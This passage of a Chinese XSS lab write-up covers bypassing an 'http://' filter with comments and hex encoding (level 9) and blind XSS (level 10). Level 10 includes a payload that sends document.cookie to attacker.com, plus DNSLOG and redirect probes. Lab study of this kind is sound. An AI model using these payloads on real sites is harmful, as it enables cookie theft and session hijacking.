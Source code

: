 ![alt](第九关网页代码.jpeg)

**分析**：
- 观察第九题和第八题形式相似，像第八题一样输入javascript:alert(1)发现报错，说明alert没有插入成功
- 检测方法是使用http://，再输入两个斜杠后恢复正常
- 我么就可以将http:// 变成一个注释放入javascript代码来绕过
- 输入javascript:alert()/*http://*/ 发现javascript被过滤
- 接着使用第八关中转化为16进制来解决
==源代码分析==
~~~
if(false===strpos($str7,'http://'))
~~~
**这里的代码就是字符串判断，看看是否在str7里面**

---

### **第10关：盲打XSS**
#### **攻击场景**
无回显但存在后台管理页面

#### **利用验证**
```html
<script>
fetch('http://attacker.com/log?data='+btoa(document.cookie))
</script>
```
**盲测技巧**：
- 使用DNSLOG检测：`< img src=http://xss.xxx.ceye.io>`
- 延时判断：`setTimeout(function(){location.href='...'},3000)`


